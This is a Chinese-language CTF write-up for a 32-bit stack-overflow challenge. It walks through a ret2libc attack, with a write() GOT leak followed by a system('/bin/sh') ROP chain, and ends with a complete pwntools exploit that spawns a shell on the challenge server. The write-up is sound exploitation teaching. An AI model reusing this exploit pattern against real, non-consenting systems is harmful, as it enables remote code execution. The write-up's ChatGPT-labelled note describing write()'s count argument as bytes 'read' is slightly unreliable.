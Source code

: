 ```yaml
---
tags:
  - BuuCTF
  - 中等
  - ret2libc
---
```


# 铁人三项(第五赛区)_2018_rop

## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec 2018_rop  
[*] '/home/ela/Pwn/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX，ShellCode 无缘，而且题目叫 ROP，肯定就是 ROP

用 IDA 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

然后是 `vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

这里可以造成栈溢出，注入点找到了

仔细看了一圈，发现没有 `system()` 函数和 `/bin/sh` 字符串，看来得构造

再看了看，感觉可以从主程序的 `write()` 函数算出来基地址

想试试看 ROPgadget，结果发现没有能用的 `pop rdi; ret`，那只能用别的方法了

## 构造 Payload 1

```python
main_addr = elf.symbols["main"]
write_plt = elf.plt["write"]
write_got = elf.got["write"]

payload1 = b"A" * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload1)
```

以下是对于 Payload 1 的一些解释（由 ChatGPT 生成）

1. "A" * (0x88 + 0x4): 这是填充部分，用于填充到返回地址之前的缓冲区，以覆盖返回地址。0x88 是缓冲区的长度，0x4 是因为你使用了32位的地址，所以填充4个字节

2. p32(write_plt): 这部分将 write 函数的地址（write_plt）添加到ROP链中，以便在下一次返回时跳转到 write 函数

3. p32(main_addr): 这一部分是设置返回地址，将程序重新返回到 main 函数。这是为了让程序能够重新执行，以便进行下一步的攻击

4. p32(1): 这是将 write 函数的参数 fd 设置为标准输出（文件描述符1），以便在泄漏数据时将其写入标准输出

5. p32(write_got): 这一部分是将 write 函数的GOT表项的地址（write_got）添加到ROP链中，以便在执行 write 函数时可以泄漏其真实地址

6. p32(4): 这是 write 函数的参数 n，表示要读取的字节数

## 计算 Libc 基址

接受返回数据，获得 `write()` 的实际地址，然后计算基址，接着就是计算 `system()` 和 `/bin/sh` 的实际地址

```python
write_addr = u32(io.recv(4).strip().ljust(4, b"\0"))
libc = LibcSearcher("write", write_addr)
libc_base = write_addr - libc.dump("write")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")
```

## 构造 Payload 2

```python
payload2 = b"A" * (0x88 + 0x4) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendline(payload2)
```

## 附总 Exp

```python
from pwn import *
from LibcSearcher import *

p32 = lambda x: pack(x, 32)
u32 = lambda x: unpack(x, 32)

io = remote("node4.buuoj.cn", 27742)
elf = ELF("./2018_rop")

main_addr = elf.symbols["main"]
write_plt = elf.plt["write"]
write_got = elf.got["write"]

payload1 = b"A" * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload1)

write_addr = u32(io.recv(4).strip().ljust(4, b"\0"))
libc = LibcSearcher("write", write_addr)
libc_base = write_addr - libc.dump("write")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")

payload2 = b"A" * (0x88 + 0x4) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendline(payload2)

io.interactive()

```